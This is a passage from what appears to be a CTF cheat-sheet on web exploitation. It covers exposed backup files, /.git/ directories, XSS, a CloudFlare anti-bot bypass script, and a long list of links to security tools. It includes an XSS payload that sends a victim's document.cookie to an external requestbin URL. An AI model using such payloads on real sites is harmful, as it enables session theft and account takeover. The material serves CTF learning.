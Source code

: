 	Some times you may be able to dig up an old version of a webpage (or some PHP source code!) by adding the usual backup suffixes. A good thing to check!

* `/admin/`

	This directory is often found by directory scanning bruteforce tools, so I recommend just checking the directory on your own, as part of your own "low-hanging fruits" check.

* `/.git/`
	
	A classic CTF challenge is to leave a `git` repository live and available on a website. You can see this with `nmap -A` (or whatever specific script catches it) and just by trying to view that specific folder, `/.git/`. A good command-line tool for this is [`GitDumper.sh`](https://github.com/internetwache/GitTools), or just simply using [`wget`][wget].

* [`GitDumper.sh`][GitDumper.sh]
	
	A command-line tool that will automatically scrape and download a [git] repository hosted online with a given URL.

* [XSS]/[Cross-site scripting]

	[XSS Filter Evasion Cheat Sheet](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet). [Cross-site scripting], vulnerability where the user can control rendered [HTML] and ideally inject [JavaScript] code that could drive a browser to any other website or make any malicious network calls. Example test payload is as follows:

```
<IMG SRC=/ onerror="alert(String.fromCharCode(88,83,83))"></img>
```

	Typically you use this to steal cookies or other information, and you can do this with an online requestbin.

```
<img src="#" onerror="document.location='http://requestbin.fullcontact.com/168r30u1?c' + document.cookie">
```

* [CloudFlare Bypass](https://github.com/Anorov/cloudflare-scrape)

	If you need to script or automate against a page that uses the I'm Under Attack Mode from CloudFlare, or DDOS protection, you can do it like this with linked Python module.
	
``` python
#!/usr/bin/env python

import cfscrape

url = 'http://yashit.tech/tryharder/'

scraper = cfscrape.create_scraper() 
print scraper.get(url).content 
```

* [XSStrike]

	A command-line tool for automated [XSS] attacks. Seems to function like how [sqlmap] does.

* [`wpscan`][wpscan]


[steghide]: http://steghide.sourceforge.net/
[snow]: http://www.darkside.com.au/snow/
[cribdrag.py]: https://github.com/SpiderLabs/cribdrag
[cribdrag]: https://github.com/SpiderLabs/cribdrag
[pcap]: https://en.wikipedia.org/wiki/Pcap
[PCAP]: https://en.wikipedia.org/wiki/Pcap
[Wireshark]: https://www.wireshark.org/
[Network Miner]: http://www.netresec.com/?page=NetworkMiner
[PCAPNG]: https://github.com/pcapng/pcapng
[pcapng]: https://github.com/pcapng/pcapng
[pdfcrack]: http://pdfcrack.sourceforge.net/index.html
[GitDumper.sh]: https://github.com/internetwache/GitTools
[pefile]: https://github.com/erocarrera/pefile
[Python]: https://www.python.org/
[PE]: https://en.wikipedia.org/wiki/Portable_Executable
[Portable Executable]: https://en.wikipedia.org/wiki/Portable_Executable
[hipshot]: https://bitbucket.org/eliteraspberries/hipshot
[QR code]: https://en.wikipedia.org/wiki/QR_code
[QR codes]: https://en.wikipedia.org/wiki/QR_code
[QR]: https://en.wikipedia.org/wiki/QR_code
[zbarimg]: https://linux.die.net/man/1/zbarimg
[Linux]: https://en.wikipedia.org/wiki/Linux
[Ubuntu]: https://en.wikipedia.org/wiki/Ubuntu_(operating_system)
[Wine]: https://en.wikipedia.org/wiki/Wine_(software)
[Detect DTMF Tones]: http://dialabc.com/sound/detect/index.html
[dnSpy]: https://github.com/0xd4d/dnSpy
[Windows]: https://en.wikipedia.org/wiki/Microsoft_Windows
[.NET]: https://en.wikipedia.org/wiki/.NET_Framework
[Vigenere Cipher]: https://en.wikipedia.org/wiki/Vigen%C3%A8re_cipher
[PDF]: https://en.wikipedia.org/wiki/Portable_Document_Format
[Playfair Cipher]: https://en.wikipedia.org/wiki/Playfair_cipher
[bcompiler]: http://php.net/manual/en/book.bcompiler.php
[PHP]: https://en.wikipedia.org/wiki/PHP
[GET]: https://en.wikipedia.org/wiki/Hypertext_Transfer_Protocol#Request_methods
[pdfdetach]: https://www.systutorials.com/docs/linux/man/1-pdfdetach/
[sqlmap]: https://github.com/sqlmapproject/sqlmap
[hachoir-subfile]: https://pypi.python.org/pypi/hachoir-subfile/0.5.3
[wget]: https://en.wikipedia.org/wiki/Wget
[git]: https://git-scm.com/
[Cross-site scripting]: https://en.wikipedia.org/wiki/Cross-site_scripting
[XSS]: https://en.wikipedia.org/wiki/Cross-site_scripting
[HTML]: https://en.wikipedia.org/wiki/HTML
[JavaScript]: https://en.wikipedia.org/wiki/JavaScript
[PEiD]: https://www.aldeid.com/wiki/PEiD
[wpscan]: https://wpscan.org/
[Ruby]: https://www.ruby-lang.org/en/
[Wordpress]: https://en.wikipedia.org/wiki/WordPress
[dumpzilla]: http://www.dumpzilla.org/
[hexed.it]: https://hexed.it/
[Magic Numbers]: https://en.wikipedia.org/wiki/Magic_number_(programming)#Magic_numbers_in_files
[Magic Number]: https://en.wikipedia.org/wiki/Magic_number_(programming)#Magic_numbers_in_files
[Edit This Cookie]: http://www.editthiscookie.com/
[cookie]: https://en.wikipedia.org/wiki/HTTP_cookie
[cookies]: https://en.wikipedia.org/wiki/HTTP_cookie
[formatStringExploiter]: http://formatstringexploiter.readthedocs.io/en/latest/index.html
[format string vulnerability]: https://www.owasp.org/index.php/Format_string_attack
[printf vulnerability]: https://www.owasp.org/index.php/Format_string_attack
[Java]: https://en.wikipedia.org/wiki/Java_(programming_language)
[JAR]: https://en.wikipedia.org/wiki/JAR_(file_format)
[OpenStego]: https://www.openstego.com/
[Stegsolve.jar]: http://www.caesum.com/handbook/stego.htm
[Stegsolve]: http://www.caesum.com/handbook/stego.htm
[PcapXray]: https://github.com/Srinivas11789/PcapXray
[Atbash Cipher]: https://en.wikipedia.org/wiki/Atbash
[TestDisk]: https://www.cgsecurity.org/Download_and_donate.php/testdisk-7.1-WIP.linux26.tar.bz2
[PNG]: https://en.wikipedia.org/wiki/Portable_Network_Graphics
[jd-gui]: https://github.com/java-decompiler/jd-gui
[dex2jar]: https://github.com/pxb1988/dex2jar
[apktool]: https://ibotpeaches.github.io/Apktool/
[RCE]: https://en.wikipedia.org/wiki/Arbitrary_code_execution
[remote code execution]: https://en.wikipedia.org/wiki/Arbitrary_code_execution
[arbitrary code execution]: https://en.wikipedia.org/wiki/Arbitrary_code_execution
[XSStrike]: https://github.com/UltimateHackers/XSStrike
[nishang]: https://github.com/samratashok/nishang
[Malboge]: https://en.wikipedia.org/wiki/Malbolge
[Piet]: https://esolangs.org/wiki/Piet
[npiet]: https://www.bertnase.de/npiet/
[LC4]: https://www.schneier.com/blog/archives/2018/05/lc4_another_pen.html
[Empire]: https://github.com/EmpireProject/Empire
[Base64]: https://en.wikipedia.org/wiki/Base64
[Base32]: https://en.wikipedia.org/wiki/Base32
[Base85]: https://en.wikipedia.org/wiki/Ascii85
[fcrackzip]: https://github.com/hyc/fcrackzip
[zsteg]: https://github.com/zed-0xff/zsteg
[jsteg]: https://github.com/lukechampine/jsteg
[jstego]: https://sourceforge.net/projects/jstego/
[StegCracker]: https://github.com/Paradoxis/StegCracker
[Base41]: https://github.com/sveljko/base41/blob/master/python/base41.py
[Base65535]: https://github.com/qntm/base65536
[Easy Python Decompiler]: https://github.com/aliansi/Easy-Python-Decompiler-v1.3.2